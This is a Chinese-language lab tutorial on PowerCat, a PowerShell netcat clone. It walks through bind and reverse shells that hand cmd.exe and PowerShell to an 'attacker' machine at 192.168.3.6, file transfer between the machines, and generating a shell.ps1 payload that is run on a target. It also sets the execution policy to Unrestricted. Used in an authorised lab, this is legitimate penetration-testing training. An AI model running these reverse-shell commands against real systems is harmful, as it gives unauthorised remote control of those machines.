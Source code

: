 # **PowerCat**反弹**Shell**

## PowerCat介绍                                     [ ](af://n2)

PowerCat是一个powershell写的tcp/ip瑞士军刀， 看一看成ncat的powershell的实现， 然后里面也加入了众多好 用的功能， 如文件上传， smb协议支持， 中继模式， 生成payload， 端口扫描等等。

## **PowerCat**安装                                     [ ](af://n5)

### 1、下载地址

  https://github.com/besimorhino/powercat  

### 2、下载下来导入

```
 Import-Module .\powercat.ps1 
```

### 3、如果提示未能加载指定模块， 则可能是权限问题， 输入如下代码

```
Set-ExecutionPolicy Unrestricted  
```

### 4、输入如下命令可以查看帮助信息

```
powercat -h  
```

### 5、如下就是安装成功

![img](https://img.gyxnb.top/img/clip_image001-168398341552439.jpg)

## **PowerCat**命令   

```
-l 监听连接
-c 连接到侦听器
-p 要连接或监听的端口
-e 执行
-ep 执行Powershell
-r 中继。格式：“-r tcp：10.1.1.1：443”
-u 通过UDP传输数据
-dns 通过dns传输数据
-dnsft DNS故障阈值
-t 超时选项。默认值：60
-I 输入：文件路径（字符串），字节数组或字符串
-o 控制台输出类型：“主机”，“字节”或“字符串”
-of 输出文件路径
-d 连接后断开连接
-rep 中继器。断开连接后重新启动
-g 生成有效载荷
-ge 生成编码的有效载荷
-h 打印帮助消息
```

## **PowerCat**实验环境介绍                          [ ](af://n24)

两台机器

| 机器名称 | 机器**IP**   |
| -------- | ------------ |
| 攻击机器 | 192.168.3.6  |
| 目标靶机 | 192.168.3.10 |

 ![img](https://img.gyxnb.top/img/clip_image006.gif)

## **PowerCat**和**nc**正向连接                              [ ](af://n39)

### 1、靶机使用powercat监听，执行以下命令

```
  powercat -l -p 8080  -e cmd.exe -v  
```

![img](https://img.gyxnb.top/img/clip_image007.jpg)

### 2、攻击机使用nc连，执行以下命令

```
nc 192.168.3.10 8080 -vv
```

![img](https://img.gyxnb.top/img/clip_image009-168398341552442.jpg)

### 3、查看返回结果

![img](https://img.gyxnb.top/img/clip_image010-168398341552441.jpg)

## **PowerCat**和**nc**反向连接                              [ ](af://n54)

### 1、靶机使用powercat连，执行以下命令

```
  powercat -c 192.168.3.6 -p 8888 -v -e cmd.exe  
```

![img](https://img.gyxnb.top/img/clip_image011.jpg)

### 2、攻击机使用nc监听，执行以下命令

```
 nc -l -p 8888 -vv  
```

![img](https://img.gyxnb.top/img/clip_image012.jpg)

### 3、查看返回结果

![img](https://img.gyxnb.top/img/clip_image014.gif)

## **PowerCat**和**PowerCat**反向连接                        [ ](af://n69)

### 1、靶机使用powercat连，执行以下命令

```
  powercat -c 192.168.3.6 -p 9999 -v -ep  
```

![img](https://img.gyxnb.top/img/clip_image018.gif)

### 2、攻击机使用powercat监听，执行以下命令

```
powercat -l -p  9999 -v
```

![img](https://img.gyxnb.top/img/clip_image016.gif)

![img](https://img.gyxnb.top/img/clip_image019.jpg)

## **PowerCat**文件传输                                  [ ](af://n84)

### 1、靶机使用powercat监听，接收，执行以下命令

```
powercat -l -p 9999 -of test.txt -v  
```

![img](https://img.gyxnb.top/img/clip_image020.jpg)

### 2、攻击机使用powercat连，传，执行以下命令

```
powercat -c  192.168.70.8 -p 9999 -i desktop\test.txt -v 
```

![img](https://img.gyxnb.top/img/clip_image022.gif)

### 3、查看返回结果

![img](https://img.gyxnb.top/img/clip_image024.gif)

## 用**powercat**生成**payload**                               [ ](af://n99)

### 1、攻击机使用powercat执行以下命令生成payload

```
 powercat -l -p 8000 -e cmd -v -g >> shell.ps1
```

![img](https://img.gyxnb.top/img/clip_image026.gif)

### 2、攻击机使用powercat执行以下命令连接

```
powercat -c 192.168.70.7 -p 8000 -v 
```

![img](https://img.gyxnb.top/img/clip_image027.jpg)

### 3、在靶机上运行脚本

```
.\shell.ps1  
```

![img](https://img.gyxnb.top/img/clip_image029-168398341552543.gif)

### 4、查看运行结果

![img](https://img.gyxnb.top/img/clip_image031.gif)